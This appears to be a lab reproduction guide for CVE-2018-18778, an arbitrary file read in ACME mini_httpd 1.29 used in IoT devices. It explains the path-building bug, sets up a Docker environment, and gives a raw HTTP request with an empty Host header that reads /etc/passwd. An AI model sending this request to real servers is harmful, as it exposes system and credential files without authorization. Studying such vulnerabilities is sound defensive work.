

ACME mini_httpd Arbitrary File Read (CVE-2018-18778)¶
ACME mini_httpd is a tiny HTTP server that maintains a certain level of performance (about 90% of Apache) while consuming minimal system resources. Therefore, it is widely used as an embedded server in various IoT devices (routers, switches, cameras, etc.). Devices from manufacturers including Huawei, zyxel, Hikvision, and Raspberry Pi have used the Mini_httpd component.
When mini_httpd is running in virtual host mode, user requests to http://HOST/FILE will access the HOST/FILE file in the current directory.
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
Looking at the code above, the analysis is as follows:
- When HOST=
example.comand FILE=index.html, the above statement results inexample.com/index.html, and the file is read normally. - When HOST is empty and FILE=
etc/passwd, the above statement results in/etc/passwd.
The latter is treated as an absolute path, thus reading /etc/passwd, causing an arbitrary file read vulnerability.
Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2018-18778
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-18778.yaml
Environment Setup¶
Execute the following command to start mini_httpd 1.29:
docker compose up -d
After the server starts, visit http://your-ip:8080 to see the web page.
Vulnerability Reproduction¶
Send a request with an empty Host header and the absolute file path as the PATH value:
GET /etc/passwd HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Successfully read the file:
